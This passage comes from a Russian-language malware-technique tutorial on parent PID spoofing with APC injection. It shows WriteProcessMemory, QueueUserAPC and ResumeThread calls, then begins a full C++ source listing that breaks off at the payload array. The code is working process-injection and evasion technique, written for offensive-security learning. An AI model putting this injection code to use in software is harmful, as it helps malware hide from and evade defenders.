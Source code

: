 Записываю полезную нагрузку `meow-meow` в память созданного процесса:      

```cpp
BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);
```

Добавляю объект асинхронного вызова процедуры (APC) в очередь APC потока созданного процесса:     

```cpp
QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
```

Возобновляю поток:    

```cpp
ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
```

Таким образом, полный исходный код этого трюка выглядит следующим образом:     

```cpp
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}


int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
```
